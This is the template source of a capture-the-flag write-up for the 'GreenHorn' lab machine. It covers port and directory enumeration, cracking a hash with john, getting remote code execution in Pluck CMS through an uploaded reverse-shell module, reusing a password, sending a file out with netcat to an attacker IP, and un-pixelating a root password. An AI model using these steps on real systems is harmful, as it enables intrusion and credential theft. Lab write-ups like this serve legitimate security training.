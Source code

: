 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start off by scanning all the ports.")}}

{{console("nmap -T5 -p- -sC -sV 10.10.11.25", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-20 18:23 CET
Warning: 10.10.11.25 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.11.25
Host is up (0.066s latency).
Not shown: 65093 closed tcp ports (reset), 438 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
3000/tcp open  ppp?")}}

{{text("We find 2 open ports:")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("When we try to go to the web site, it redirects us to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://greenhorn.htb</code>. We add that entry to our <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/hosts</code> file and visit the page once more.")}}

{{image("../../static/writeups/greenhorn/images/000001.jpg")}}

{{text("I continued with directory enumerating, and was able to find a login page.")}}

{{console("ffuf -u http://greenhorn.htb/FUZZ -w /usr/share/wordlists/dirb/big.txt -e .php -fw 1", "
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
...
________________________________________________

admin.php               [Status: 200, Size: 4528, Words: 288, Lines: 131, Duration: 62ms]
data                    [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 60ms]
docs                    [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 61ms]
files                   [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 53ms]
images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 55ms]
install.php             [Status: 200, Size: 4537, Words: 284, Lines: 131, Duration: 65ms]
login.php               [Status: 200, Size: 1242, Words: 73, Lines: 32, Duration: 68ms]
requirements.php        [Status: 200, Size: 4549, Words: 286, Lines: 131, Duration: 73ms]
robots.txt              [Status: 200, Size: 47, Words: 4, Lines: 3, Duration: 57ms]
:: Progress: [40938/40938] :: Job [1/1] :: 615 req/sec :: Duration: [0:01:12] :: Errors: 12 ::")}}

{{text("Since I had no credentials, and couldn't find anything else on the site, I proceeded with checking the port <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>3000</code>")}}

{{image("../../static/writeups/greenhorn/images/000002.jpg")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("After finding the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>GreenHorn</code> repository, I started looking through the files.")}}

{{text("I was able to find a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>pass.php</code> file with what looked like a hash.")}}

{{image("../../static/writeups/greenhorn/images/000003.jpg")}}

{{text("I save it into a file and used <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>john</code> to crack it.")}}

{{console("john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA512", "Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 256/256 AVX2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=8
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]        (?)     
1g 0:00:00:00 DONE (2024-12-20 18:58) 20.00g/s 163840p/s 163840c/s 163840C/s 123456..whitetiger
Use the '--show' option to display all of the cracked passwords reliably
Session completed. ")}}

{{text("Now with a password, I returned to the login page and tried logging in.")}}

{{image("../../static/writeups/greenhorn/images/000004.jpg")}}

{{text("Password was correct and now we had access to the admin panel.")}}

{{text("On the bottom of the site, we notice that the version is <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>pluck 4.7.18</code>.")}}

{{text("Let's try to find a exploit related to this version.")}}

{{text("A simple search and I came across this.")}}

{{link("https://www.exploit-db.com/exploits/51592", "https://www.exploit-db.com/favicon.ico", "Pluck v4.7.18 - Remote Code Execution (RCE)")}}

{{text("For some reason, I couldn't get the exploit to successfully log in, so we will do it manually.")}}

{{text("We proceed to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>manage modules</code> and click on <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>install a module</code>.")}}

{{text("Now we navigate to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code> and get ourselves a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>pentest monkey</code> shell.")}}

{{text("Just like the exploit, we first have to zip it before uploading it.")}}

{{console("zip shell.zip shell.php")}}

{{text("Now we set up a listener and we can upload our archive.")}}

{{image("../../static/writeups/greenhorn/images/000005.jpg")}}

{{text("After successfully uploading it, we should instantly get a connection.")}}

{{image("../../static/writeups/greenhorn/images/000006.jpg")}}

{{header("Shell as junior", "shell-as-junior")}}

{{text("I spend a lot of time looking through the file system, but I couldn't find anything.")}}

{{text("Then I remembered that one of the users, <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>junior</code>, was mentioned before.")}}

{{text("Since he was a \"junior\", I wondered if we reused his passwords.")}}

{{image("../../static/writeups/greenhorn/images/000007.jpg")}}

{{text("And I was right, he used the same password that allowed us to log in into the Pluck CMS.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("I noticed a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.pdf</code> file in my user's home directory. I downloaded it onto my machine.")}}

{{text("My machine.")}}

{{console("nc -nlvp 1235 > 'Using OpenVAS.pdf'")}}

{{text("Victim's machine.")}}

{{console("nc 10.10.14.156 1235 < 'Using OpenVAS.pdf'")}}

{{text("Having downloaded the file, I opened it.")}}

{{image("../../static/writeups/greenhorn/images/000008.jpg")}}

{{text("It is a note about the installation of OpenVAS. There also is a password in the note, but it seems to be blurred out.")}}

{{text("I spend a lot of time stuck on this part, but finally I found the right tool for the job.")}}

{{link("https://github.com/spipm/Depix", "../../static/writeups/images/github.jpg", "Depix")}}

{{text("'Recovering plaintext from pixelized screenshots' sounded exactly like the thing we needed. I cloned the repository onto my machine.")}}

{{text("We needed to save it as an image, we can do so by simply right-clicking the pixelized text.")}}

{{image("../../static/writeups/greenhorn/images/000009.jpg")}}

{{text("After using the tool we downloaded, we should get the correct password.")}}

{{console("python3 depix.py -p ../image.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o ./output.png", "2024-12-20 20:02:12,388 - Loading pixelated image from ../image.png
2024-12-20 20:02:12,398 - Loading search image from images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
...
2024-12-20 20:03:19,707 - Saving output image to: ./output.png")}}

{{text("We now open the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>output.png</code> file and use the password to log in as root.")}}

{{image("../../static/writeups/greenhorn/images/000010.jpg")}}

{{script()}}